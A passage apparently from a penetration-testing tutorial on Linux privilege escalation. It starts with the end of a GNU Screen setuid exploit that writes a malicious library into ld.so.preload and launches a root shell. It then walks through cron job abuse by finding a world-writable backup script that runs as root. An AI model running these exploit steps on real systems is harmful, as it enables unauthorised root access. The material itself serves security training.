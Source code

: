 ```bash
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell

```


# Cron Job Abuse

* * *

Cron jobs can also be set run one time (such as on boot). They are typically used for administrative tasks such as running backups, cleaning up directories, etc. The `crontab` command can create a cron file, which will be run by the cron daemon on the schedule specified. When created, the cron file will be created in `/var/spool/cron` for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry `0 */12 * * * /home/admin/backup.sh` would run every 12 hours.

The root crontab is almost always only editable by the root user or a user with full sudo privileges; however, it can still be abused. You may find a world-writable script that runs as root and, even if you cannot read the crontab to know the exact schedule, you may be able to ascertain how often it runs (i.e., a backup script that creates a `.tar.gz` file every 12 hours). In this case, you can append a command onto the end of the script (such as a reverse shell one-liner), and it will execute the next time the cron job runs.

Certain applications create cron files in the `/etc/cron.d` directory and may be misconfigured to allow a non-root user to edit them.

First, let's look around the system for any writeable files or directories. The file `backup.sh` in the `/dmz-backups` directory is interesting and seems like it could be running on a cron job.

```shell
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

/etc/cron.daily/backup
/dmz-backups/backup.sh
/proc
/sys/fs/cgroup/memory/init.scope/cgroup.event_control

<SNIP>
/home/backupsvc/backup.sh

<SNIP>

```

A quick look in the `/dmz/backups` directory shows what appears to be files created every three minutes. This seems to be a major misconfiguration. Perhaps the sysadmin meant to specify every three hours like `0 */3 * * *` but instead wrote `*/3 * * * *`, which tells the cron job to run every three minutes. The second issue is that the `backup.sh` shell script is world writeable and runs as root.

```shell
ls -la /dmz-backups/

total 36
drwxrwxrwx  2 root root 4096 Aug 31 02:39 .
drwxr-xr-x 24 root root 4096 Aug 31 02:24 ..
-rwxrwxrwx  1 root root  230 Aug 31 02:39 backup.sh
-rw-r--r--  1 root root 3336 Aug 31 02:24 www-backup-2020831-02:24:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:27 www-backup-2020831-02:27:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:30 www-backup-2020831-02:30:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:33 www-backup-2020831-02:33:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:36 www-backup-2020831-02:36:01.tgz
-rw-r--r--  1 root root 3336 Aug 31 02:39 www-backup-2020831-02:39:01.tgz

```